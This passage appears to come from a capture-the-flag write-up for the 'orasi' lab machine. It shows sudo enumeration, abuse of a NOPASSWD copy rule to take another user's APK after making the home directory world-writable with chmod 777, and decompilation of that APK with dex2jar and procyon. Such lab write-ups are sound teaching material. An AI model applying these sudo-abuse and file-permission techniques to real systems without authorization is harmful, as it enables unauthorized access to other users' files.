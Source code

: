 ```
  kori@orasi:~$ sudo -l
  sudo -l
  Matching Defaults entries for kori on orasi:
      env_reset, mail_badpass,
      secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

  User kori may run the following commands on orasi:
      (irida) NOPASSWD: /usr/bin/cp /home/irida/irida.apk /home/kori/irida.apk
  kori@orasi:~$ sudo -u irida /usr/bin/cp /home/irida/irida.apk /home/kori/irida.apk
  sudo -u irida /usr/bin/cp /home/irida/irida.apk /home/kori/irida.apk
  /usr/bin/cp: cannot create regular file '/home/kori/irida.apk': Permission denied
  kori@orasi:~$ cd ..
  cd ..
  kori@orasi:/home$ chmod 777 kori
  chmod 777 kori
  kori@orasi:/home$ cd /home/kori
  cd /home/kori
  kori@orasi:~$ sudo -u irida /usr/bin/cp /home/irida/irida.apk /home/kori/irida.apk
  sudo -u irida /usr/bin/cp /home/irida/irida.apk /home/kori/irida.apk
  kori@orasi:~$ ls
  ls
  irida.apk  jail.php
  kori@orasi:~$
{% endhighlight %}

## APK decompile & code analysis

{% highlight sh %}
  ┌──(alienum㉿kali)-[~]
  └─$ mv irida.apk irida.zip

  ┌──(alienum㉿kali)-[~]
  └─$ unzip irida.zip

  ┌──(alienum㉿kali)-[~]
  └─$ d2j-dex2jar classes.dex

  ┌──(alienum㉿kali)-[~]
  └─$ mkdir irida

  ┌──(alienum㉿kali)-[~]
  └─$ procyon classes-dex2jar.jar -o ./irida

  ┌──(alienum㉿kali)-[~/irida/com/alienum]
  └─$ tree
  .
  └── irida
      ├── BuildConfig.java
      ├── data
      │   ├── LoginDataSource.java
      │   ├── LoginRepository.java
      │   ├── model
      │   │   └── LoggedInUser.java
      │   └── Result.java
      ├── R.java
      └── ui
          └── login
              ├── LoggedInUserView.java
              ├── LoginActivity.java
              ├── LoginFormState.java
              ├── LoginResult.java
              ├── LoginViewModelFactory.java
              └── LoginViewModel.java		
```